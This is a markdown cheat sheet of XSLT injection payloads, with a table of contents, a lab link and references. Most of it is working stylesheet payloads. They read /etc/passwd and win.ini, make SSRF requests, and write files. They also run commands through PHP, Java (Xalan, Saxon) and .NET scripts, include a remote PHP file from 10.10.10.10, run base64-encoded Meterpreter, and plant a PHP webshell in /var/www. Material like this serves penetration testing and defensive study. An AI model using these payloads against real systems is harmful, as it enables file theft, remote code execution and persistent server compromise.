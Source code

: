 # XSLT Injection

> Processing an un-validated XSL stylesheet can allow an attacker to change the structure and contents of the resultant XML, include arbitrary files from the file system, or execute arbitrary code


## Summary

- [Tools](#tools)
- [Methodology](#methodology)
    - [Determine the vendor and version](#determine-the-vendor-and-version)
    - [External Entity](#external-entity)
    - [Read files and SSRF using document](#read-files-and-ssrf-using-document)
    - [Write files with EXSLT extension](#write-files-with-exslt-extension)
    - [Remote Code Execution with PHP wrapper](#remote-code-execution-with-php-wrapper)
    - [Remote Code Execution with Java](#remote-code-execution-with-java)
    - [Remote Code Execution with Native .NET](#remote-code-execution-with-native-net)
- [Labs](#labs)
- [References](#references)


## Tools

No known tools currently exist to assist with XSLT exploitation.

* [TODO](#)


## Methodology

### Determine the vendor and version

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### External Entity

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    Fruits &ext_file;:
    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### Read files and SSRF using document

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    Fruits:
	    <!-- Loop for each fruit -->
    <xsl:for-each select="fruit">
      <!-- Print name: description -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```


### Write files with EXSLT extension

EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. EXSLT, or Extensible Stylesheet Language Transformations, is a set of extensions to the XSLT (Extensible Stylesheet Language Transformations) language. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="evil.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```


### Remote Code Execution with PHP wrapper

Execute the function `readfile`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

Execute the function `scandir`.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `assert`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
  <xsl:variable name="payload">
    include("http://10.10.10.10/test.php")
  </xsl:variable>
  <xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

Execute a PHP meterpreter using PHP wrapper.

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:variable name="eval">
      eval(base64_decode('Base64-encoded Meterpreter code'))
    </xsl:variable>
    <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
  </xsl:template>
</xsl:stylesheet>
```

Execute a remote php file using `file_put_contents`

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
  <xsl:template match="/">
    <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
  </xsl:template>
</xsl:stylesheet>
```

### Remote Code Execution with Java

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### Remote Code Execution with Native .NET

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
	<xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---	
  </xsl:template>
</xsl:stylesheet>
```


## Labs

- [Root Me - XSLT - Code execution](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)


## References

- [From XSLT code execution to Meterpreter shells - Nicolas Grégoire (@agarri) - July 2, 2012](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
- [XSLT Injection - Fortify - January 16, 2021](http://web.archive.org/web/20210116001237/https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
- [XSLT Injection Basics - Saxon - Hunnic Cyber Team - August 21, 2019](http://web.archive.org/web/20190821174700/https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
- [Getting XXE in Web Browsers using ChatGPT - Igor Sak-Sakovskiy - May 22, 2024](https://swarm.ptsecurity.com/xxe-chrome-safari-chatgpt/)
- [XSLT injection lead to file creation - PT SWARM (@ptswarm) - May 30, 2024](https://twitter.com/ptswarm/status/1796162911108255974/photo/1)